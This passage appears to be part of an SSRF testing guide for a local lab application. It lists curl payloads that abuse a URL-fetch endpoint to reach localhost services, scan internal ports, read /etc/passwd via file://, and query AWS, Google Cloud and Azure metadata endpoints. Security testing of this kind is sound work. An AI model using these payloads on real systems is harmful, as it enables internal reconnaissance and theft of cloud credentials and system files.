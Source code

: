 #### 2.1 Internal Network Access
Test if you can access internal services:

```bash
# Test localhost access
curl -X POST http://localhost:5000/fetch -d "url=http://localhost:5000/health"

# Test different localhost variations
- http://127.0.0.1:5000
- http://0.0.0.0:5000
- http://[::1]:5000
- http://localhost.localdomain:5000
```

#### 2.2 Port Scanning
Use SSRF to scan internal ports:

```bash
# Common internal services
curl -X POST http://localhost:5000/fetch -d "url=http://127.0.0.1:22"    # SSH
curl -X POST http://localhost:5000/fetch -d "url=http://127.0.0.1:3306"  # MySQL
curl -X POST http://localhost:5000/fetch -d "url=http://127.0.0.1:6379"  # Redis
curl -X POST http://localhost:5000/fetch -d "url=http://127.0.0.1:27017" # MongoDB
```

#### 2.3 Protocol Testing
Test different protocols:

```bash
# File protocol (if supported)
curl -X POST http://localhost:5000/fetch -d "url=file:///etc/passwd"

# FTP protocol
curl -X POST http://localhost:5000/fetch -d "url=ftp://internal-ftp-server/"

# LDAP protocol
curl -X POST http://localhost:5000/fetch -d "url=ldap://internal-ldap/"
```

### Phase 3: Advanced SSRF Exploitation

#### 3.1 Cloud Metadata Access
If running in cloud environments:

```bash
# AWS EC2 metadata
curl -X POST http://localhost:5000/fetch -d "url=http://169.254.169.254/latest/meta-data/"

# Google Cloud metadata
curl -X POST http://localhost:5000/fetch -d "url=http://metadata.google.internal/computeMetadata/v1/"

# Azure metadata
curl -X POST http://localhost:5000/fetch -d "url=http://169.254.169.254/metadata/instance?api-version=2021-02-01"
```
